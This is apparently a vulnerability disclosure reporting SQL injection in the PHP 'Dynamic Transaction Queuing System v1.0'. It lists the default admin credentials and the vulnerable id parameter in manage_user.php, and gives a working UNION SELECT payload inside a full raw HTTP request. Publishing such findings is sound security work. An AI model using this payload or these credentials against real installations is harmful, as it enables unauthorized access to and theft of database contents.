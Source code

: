 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

Vulnerability Discoverer:  Yang Tao, TBLab of Venustech

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/admin/manage_user.php?id=

Vulnerability location: /queuing/admin/manage_user.php?id=, id

dbname =queuing_db

[+] Payload: /queuing/admin/manage_user.php?id=-1%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /queuing/admin/manage_user.php?id=-1%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/200096614-53a9bdc6-a434-4e6f-a3b9-763b115a6b4f.png)
